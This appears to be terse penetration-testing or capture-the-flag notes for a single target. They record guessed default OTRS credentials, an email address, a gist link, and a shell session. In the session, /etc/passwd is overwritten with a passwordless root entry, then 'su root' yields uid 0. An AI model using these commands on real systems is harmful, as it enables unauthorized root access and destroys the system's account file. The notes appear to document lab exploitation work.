

username = root@localhost
password = otrs
took a wild guess....
lisa@thinc.local
https://gist.github.com/mgeeky/2df1471ad7e5891e4a1d7c7d59018d5a
bash-4.2$ echo root::0:0:root:/root:/bin/bash > /etc/passwd
echo root::0:0:root:/root:/bin/bash > /etc/passwd
bash-4.2$ su root
su root
id
uid=0(root) gid=0(root) groups=0(root)
